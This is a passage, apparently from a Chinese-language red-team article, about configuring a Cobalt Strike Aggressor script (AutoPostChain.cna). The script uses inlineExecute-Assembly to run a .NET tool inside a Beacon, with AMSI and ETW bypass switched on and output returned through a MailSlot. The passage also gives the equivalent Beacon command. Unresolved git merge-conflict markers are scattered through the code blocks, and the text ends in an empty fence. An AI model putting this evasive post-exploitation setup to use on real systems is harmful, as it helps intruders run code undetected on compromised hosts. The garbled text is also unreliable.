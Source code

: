     > 测试发现通过指定 MailSlot 能回传完整程序的运行结果，避免出现 Beacon 控制台丢失部分回显的情况
    

综上所述，在 AutoPostChain.cna 脚本中参数定义如下：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
sub inlineExecute-Assembly {
  ......
    $_amsi = 1;
  $_etw = 1;
  $_revertETW = 0;
  $_mailSlot = 1;
  $_mailSlotName = "DefaultMailSlot";
  $_mailSlotNameArgs = "DefaultMailSlot";
  $_pipeName = "DefaultPipe";
  $_pipeNameArgs = "DefaultPipe";
  $_entryPoint = 1;
  $_appDomain = "DefaultDomain";
  $_appDomainArgs = "DefaultDomain";
  $_dotNetAssembly = $2;
  $_dotNetAssemblyArgs = $3;
  $_assemblyWithArgs = $_dotNetAssemblyArgs;
  .......
}
```

同时 `_dotNetAssembly` 和 `_dotNetAssemblyArgs` 由调用的地方传入，例如：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
inlineExecute-Assembly($1,script_resource("/scripts/SharpHunter.exe"), "run \"whoami\"");
```

等效于在 Beacon 控制台执行如下命令：

<<<<<<< HEAD
```plain
inlineExecute-Assembly --dotnetassembly /Users/Tools/scripts/SharpHunter.exe --assemblyargs run whoami --amsi --etw --appdomain DefaultDomain --pipe DefaultPipe --mailSlot DefaultMailSlot
```

[![](assets/1710898890-ad3981eaefc8fc69b83a264b4d465feb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311172835-bc31838a-df89-1.png)
=======
```bash
```